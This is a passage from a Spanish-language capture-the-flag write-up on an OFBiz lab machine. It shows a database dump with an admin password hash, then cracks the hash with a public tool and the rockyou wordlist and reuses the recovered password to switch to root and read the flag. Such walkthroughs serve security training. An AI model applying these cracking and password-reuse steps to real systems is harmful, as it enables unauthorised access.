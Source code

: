 ```bash
anonymous                        |NULL                                                                            |NULL                                                                                                                            |NULL|N   |NULL|NULL|NULL                |NULL      |NULL                                                        |NULL                         |NULL                 |NULL                                                                                                                            |NULL                                                                                                                            |NULL                                                                                                                            |2023-12-16 03:38:54.747      |2023-12-16 03:38:54.284      |2023-12-16 03:38:54.747      |2023-12-16 03:38:54.284      |NULL                
admin                            |$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I                                              |NULL                                                                                                                            |NULL|Y   |N   |N   |NULL                |NULL      |NULL                                                        |NULL                         |NULL                 |NULL                                                                                                                            |NULL                                                                                                                            |NULL                                                                                                                            |2023-12-16 03:44:54.272      |2023-12-16 03:44:54.213      |2023-12-16 03:40:23.643      |2023-12-16 03:40:23.445      |NULL                

3 filas seleccionadas
ij> 
```

### Cracking Apache OFBiz SHA1 Passwords

Para lograr crackear este hash, nos encontramos con la siguiente herramienta.

{% embed url="https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker" %}

Intentamos crackear el has obtenido y finalmente logramos obtener las credenciales en texto plano del hash del usuario `admin`.

```bash
❯ python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist /usr/share/wordlists/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478440)
[!] Super, I bet you could log into something with that!
```

Intentamos cambiar de usuario al usuario `root` con las credenciales obtenidas, y comprobamos del correcto acceso como `root`. Finalmente, visualizamos la flag **root.txt**.

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data$ su root
Password: 
root@bizness:/opt/ofbiz/runtime/data# cat /root/root.txt 
fe0e508dad**********************
```
